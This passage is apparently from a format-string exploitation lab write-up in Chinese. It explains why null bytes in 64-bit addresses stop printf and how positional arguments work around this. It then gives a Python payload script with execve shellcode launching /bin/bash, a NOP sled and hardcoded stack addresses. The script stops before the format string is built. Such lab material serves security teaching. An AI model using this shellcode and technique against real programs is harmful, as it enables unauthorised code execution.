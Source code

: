 问题：64位机器地址前两个字符为0x00，导致printf在解析地址时遇到`0x00`会停止解析（与overflow中strcpy不同，strcpy会直接截断，而此处的input仍然会传入，只是printf不会解析）

可以使用`$kth`表示第k个参数，同时将地址放在input末尾避免此问题。

构造payload如下：

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

# Put the shellcode somewhere in the payload
start = N - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

############################################################
#
#    Construct the format string here
# 
############################################################

# This line shows how to store a 4-byte integer at offset 0
buf_addr = 0x00007fffffffe5c0
ret_addr = 0x00007fffffffe500 + 8
shellcode_addr = buf_addr + start  # 0x7fffffffeaf7
print(hex(shellcode_addr))
```
